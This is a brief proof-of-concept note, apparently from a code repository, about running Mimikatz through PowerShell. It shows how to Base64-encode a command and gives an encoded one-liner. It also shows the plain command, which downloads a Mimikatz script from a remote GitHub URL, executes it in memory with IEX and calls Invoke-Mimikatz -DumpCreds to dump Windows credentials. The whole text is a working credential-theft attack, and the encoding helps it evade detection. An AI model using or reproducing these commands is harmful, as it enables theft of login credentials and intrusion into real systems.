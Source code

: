 # poc mimikatz 

+ converting to Base64 encoded string
++ $Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

+ running the encoded command with powershell
++ powershell.exe -encoded $Encoded

+ encoded.bat
++ powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAAIAA9ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsAIAA=


+ not encode
++ powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m
